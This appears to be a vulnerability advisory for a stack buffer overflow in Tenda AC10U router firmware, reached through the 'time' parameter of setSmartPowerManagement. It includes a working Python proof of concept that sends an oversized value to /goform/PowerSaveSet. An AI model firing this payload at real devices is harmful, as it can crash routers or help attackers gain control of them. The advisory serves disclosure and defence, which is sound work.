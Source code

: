 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the time parameter in the setSmartPowerManagement function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "setSmartPowerManagement" retrieves the parameter "time" using "websGetVar",  the value of "time" is formatted using the sscanf function with the format "%[^:]:%[^-]-%[^:]:%s". This greedy matching mechanism is insecure, as it can cause a stack overflow if the size of the data we enter exceeds the sizes of "hour_start", "min_start", "hour_end", or "min_end".

![1705413094961](image/setSmartPowerManagement/1705413094961.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/PowerSaveSet'
payload = {
    "time": '1:00-1:'+'1'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
